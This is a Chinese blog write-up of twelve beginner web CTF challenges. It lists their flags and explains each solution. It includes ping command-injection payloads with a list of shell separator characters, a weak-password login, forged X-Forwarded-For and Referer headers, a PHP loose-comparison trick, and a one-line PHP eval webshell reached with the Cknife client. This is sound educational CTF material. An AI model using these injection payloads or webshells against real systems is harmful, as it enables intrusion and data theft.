






<!--yml
category: 未分类
date: 2022-04-26 14:28:09
-->

# WEB CTF入门题解析_Slient-猿的博客-CSDN博客_ctf入门题

> 来源：[https://blog.csdn.net/m0_37948170/article/details/107698805](https://blog.csdn.net/m0_37948170/article/details/107698805)

# ******WEB CTF入门学习******

*   X老师让小宁同学查看一个网页的源代码，但小宁同学发现鼠标右键好像不管用了。
*   答案：cyberpeace{ffbb0c3dcdb78ed0674f699dc967ce67}
*   解析：打开网址http://220.249.52.133:31520/，F12调试模式，查看源码，即可发现flag: cyberpeace{ffbb0c3dcdb78ed0674f699dc967ce67}
*   ****入门题2 get_post****
*   题目描述：X老师告诉小宁同学HTTP通常使用两种请求方法，你知道是哪两种吗？
*   答案：cyberpeace{6b4ffe588795f0221357e0bca8c7b396}
*   解析：在postman上使用get请求，然后根据返回使用post在请求一次，得到flag.



*   ****入门题3 robots****
*   题目描述：X老师上课讲了Robots协议，小宁同学却上课打了瞌睡，赶紧来教教小宁Robots协议是什么吧。
*   答案：cyberpeace{bf34b671c82a571999563a558b08422a}
*   解析：Robots协议称为爬虫协议，是网站和爬虫之间的协议，网站通过robots.txt 文件明确告诉爬虫网站那些数据信息可以被爬取。所以说搜素引擎的爬虫第一个访问的就是网站的robots.txt文件，查看其是否存在，存在则可以得到那些页面可以爬取。获取网站robots.txt文件，得到：
*   
*   然后访问http://220.249.52.133:57629/f1ag_1s_h3re.php
*   看到flag:
*   
*   ****入门题4 backup****
*   题目描述：X老师忘记删除备份文件，他派小宁同学去把备份文件找出来,一起来帮小宁同学吧！
*   答案：Cyberpeace{855A1C4B3401294CB6604CCC98BDE334
*   解析：访问URL，可以看到如下内容：
*   
*   接下来访问其备份文件：
*   220.249.52.133:53260/index.php.bak
*   访问可以下载到一个备份文件，打开可以看到flag.
*   ****入门题5 cookie****
*   题目描述：X老师告诉小宁他在cookie里放了些东西，小宁疑惑地想：‘这是夹心饼干的意思吗？’
*   答案：cyberpeace{7025e91937f29b529033285b731a72ea}
*   解析：这题主要考对cookie的基本认识，使用postman访问url:




*   ****入门题 6 disabled_button****
*   题目描述：X老师今天上课讲了前端知识，然后给了大家一个不能按的按钮，小宁惊奇地发现这个按钮按不下去，到底怎么才能按下去呢？
*   答案：cyberpeace{ae74951df5a13b95f7b5d11a0ff196df}
*   解析：这个题看眼对HTML只是的认识：浏览器访问过后将其input的disabled属性删除即可点击，点击过后得到flag.
*   把图中的disabled=””删除，保存。然后点击按钮即可。
*   
*   ****入门题7 weak_auth****
*   题目描述：小宁写了一个登陆验证页面，随手就设了一个密码。
*   答案：cyberpeace{99ebf561056a2b8d2c6f5f9621765d62}
*   解析：这题就是弱密码的考验，常见的就是admin  密码 123456，输入点击登录得到flag.
*   ****入门题8 command_execution****
*   ****题目描述：小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。****
*   答案：cyberpeace{9a36ab264d1ea981ad6be44d0344795a}
*   解析： 这题考得的是ping命令的注入，常见的命令截断字符：‘$’‘;’‘|’‘-’‘(’‘)’‘反引号’‘||’‘&&’‘&’‘}’‘{’'%0a’可以当作空格来用；ip=220.249.52.133;ls -a  / 测试下是否存在命令注入，发现存在：


*   那么尝试查找flag.txt文件，ip=220.249.52.133;find / -name "flag.*"

     得到：ping -c 3 ip=220.249.52.133;find / -name "flag.*"

          /home/flag.txt

*   找到flag.txt文件位置，使用cat查看文件内容：ip=220.249.52.133;cat /home/flag.txt 得到flag.
*   ****入门题9 simple_php****
*   题目描述：小宁听说php是最好的语言,于是她简单学习之后写了几行php代码。
*   答案：Cyberpeace{647E37C7627CC3E4019EC69324F66C7C}
*   解析：php代码如下：

    ```
    <?php
    show_source(__FILE__);
    include("config.php");
    $a=@$_GET['a'];
    $b=@$_GET['b'];
    if($a==0 and $a){
        echo $flag1;
    }
    if(is_numeric($b)){
        exit();
    }
    if($b>1234){
        echo $flag2;
    }
    ?>
    ```

*   通读代码说明a b的值都是get方式传输给服务端，想要获取flag就得让第一个if和第三个if都是真，第二个是假。== 代表php的弱比较，只比较值是否相等，字符串和数字==比较时，转换为数字时，从字符串第一个非数字字符开始，到第一个非数字字符结束，故“cc”就是0\. 但是if cc 就是true，传唤为ascII 码比较，具体规则可参考：[<u><u>https://www.runoob.com/php/php-types-comparisons.html</u></u>](https://www.runoob.com/php/php-types-comparisons.html)
*   故可以构建请求 ：[<u><u>http://220.249.52.133:54962/?a=c&b=2232c</u></u>](http://220.249.52.133:54962/?a=c&b=2232c) 得到flag：Cyberpeace{647E37C7627CC3E4019EC69324F66C7C}
*   ****入门题 10 xff_referer****
*   题目描述：X老师告诉小宁其实xff和referer是可以伪造的。
*   答案：
*   解析： xff:X-Forwarded-For是http请求头的一个字段，标识请求源的ip地址，Referer： 代表http请求的来源。这题其实就是伪造这两个字段：按照题目要求伪造X-Forwarded-For：123.123.123.123 ，得到响应，要求必须来源于：https://www.google.com，添加Referer，再次请求可以得到flag在响应中得到：cyberpeace{ec307b60ddde418609b7defa46a43e92}
*   ****入门题 11 webshell****
*   题目描述：小宁百度了php一句话,觉着很有意思,并且把它放在index.php里。
*   ****答案：****cyberpeace{5e70bcd88a80c525a7b8a1ee1b1c8c27}
*   ****解析：****打开url后可以看到<?php @eval($_POST['shell']);?> 可以得知这句话是php的一句话木马，可以使用过Cknife进行连接，Cknife github的源码地址：[<u><u>https://github.com/Chora10/Cknife</u></u>](https://github.com/Chora10/Cknife)  ，这里给出一个自己下载编译后的下载地址：https://pan.baidu.com/s/15OUkzP8xcTNkUDlSv3QOkA
*   提取码：i3p1 ，下载解压后，在cmd命令窗口执行：java -jar Cknife.jar  运行起来，添加配置如下：
*   

*   然后选择文件管理：打开后可看到一个flag.txt文件，打开得到flag.
*   ****入门题12 simple_js****
*   题目描述：小宁发现了一个网页，但却一直输不对密码。(Flag格式为 Cyberpeace{xxxxxxxxx} )
*   答案：Cyberpeace{786OsErtk12}
*   解析：打开url，随意输入密码，F12打开，查看源码，可以看到如下js代码：
*   ```
    <script>

    var n=String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50);

        document.write(n);

        function dechiffre(pass_enc){

            var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";

            var tab  = pass_enc.split(',');

                    var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;

                            k = j + (l) + (n=0);

                            n = tab2.length;

                            for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));

                                    if(i == 5)break;}

                            for(i = (o=0); i < (k = j = n); i++ ){

                            o = tab[i-l];

                                    if(i > 5 && i < k-1)

                                            p += String.fromCharCode((o = tab2[i]));

                            }

            p += String.fromCharCode(tab2[17]);

            pass = p;return pass;

        }

    debugger

        String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

        h = window.prompt('Enter password');

        alert( dechiffre(h) );

    </script>
    ```